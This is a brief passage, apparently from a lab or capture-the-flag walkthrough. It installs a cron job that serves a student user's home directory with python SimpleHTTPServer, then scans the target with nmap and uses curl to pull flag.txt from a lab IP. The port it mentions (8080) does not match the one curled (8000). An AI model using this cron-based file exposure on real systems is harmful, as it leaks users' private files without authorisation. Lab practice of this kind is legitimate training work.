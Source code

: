 

- ps -eaf
- Step 4: Create a cron job which will use the SimpleHTTPServer python module to serve the
files present in student user’s home directory.
Commands:
- echo "* * * * * cd /home/student/ && python -m SimpleHTTPServer" > cron
- crontab -i cron
- crontab -l
- rm wait
- exit

- nmap -sV target 
- port 8080 should be open which is our python server
- curl 192.138.29.3:8000/flag.txt 
